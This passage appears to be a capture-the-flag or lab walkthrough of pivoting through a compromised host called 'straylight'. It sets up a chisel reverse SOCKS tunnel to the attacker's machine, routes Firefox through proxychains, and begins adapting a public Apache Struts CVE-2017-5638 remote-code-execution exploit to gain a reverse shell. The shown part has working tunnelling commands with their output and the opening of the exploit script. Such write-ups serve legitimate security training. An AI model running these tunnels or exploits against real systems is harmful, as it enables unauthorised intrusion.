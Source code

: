 We will then start our chisel reverse server on our attack host

```bash
sudo ./chisel server -p 443 --reverse
2025/01/13 07:00:21 server: Reverse tunnelling enabled
2025/01/13 07:00:21 server: Fingerprint Y7gThrfiUphgV+JjGNtDf77fj/T6KVsMOPedzwuIFtY=
2025/01/13 07:00:21 server: Listening on http://0.0.0.0:443
```

We will then start our chisel client on our pivot host (straylight)

```bash
root@straylight:/tmp# ./chisel client 192.168.56.103:443 R:socks
2025/01/12 23:02:50 client: Connecting to ws://192.168.56.103:443
2025/01/12 23:02:50 client: Connected (Latency 712.928µs)
```

As we can see we are now connected. Let’s confirm this by connecting to the Tomcat application from our attack host. We will start by opening firefox using the proxychains command. This will cause all of our traffic from the resulting firefox window to go through our chisel proxy.

```bash
proxychains firefox
```

![15](https://github.com/user-attachments/assets/c55f1b4b-a0a3-4f6b-9ca5-6ebbb14be895)


There we go, we were able to successfully connect to the web server on the other network through our pivot host.

Let us now begin the enumeration.

I tried running the Metasploit tomcat_mgr_login module to bruteforce defualt tomcat credentials, but that didn’t pan out. 

Not to worry, we were given an endpoint to visit in the note we found on the /root in the straylight machine. So let’s go ahead and visit it.

![16](https://github.com/user-attachments/assets/11d584e8-9907-48f2-af66-b11d5a95ef7a)


We are greeted with this page, this is running strus2showcase, which is a framework for creating java web applications. Let’s see what we can enumerate from this.

After enumerating the website I didn’t really find anything interesting. So I decided to do a quick Google search to see if there were any exploits available. Turns out there were exploits for RCE. So I picked one from https://github.com/nixawk/labs/blob/master/CVE-2017-5638/exploit-requests.py

Although I had to modify it a bit for our purposes. I tried running the exploit through our chisel proxy but that was causing some problems. Since the exploit was an RCE, I decided to just run the exploit from the straylight machine and then just tunnel the reverse shell gained from the RCE.

```bash
#!/usr/bin/python3
# -*- coding: utf-8 -*-

# Author : Nixawk

import requests
import string
import random
import logging

logging.basicConfig(level=logging.INFO)
log = logging.getLogger(__name__)

class CVE_2017_5638(object):

    # Apache Struts Jakarta Multipart Parser OGNL Injection

```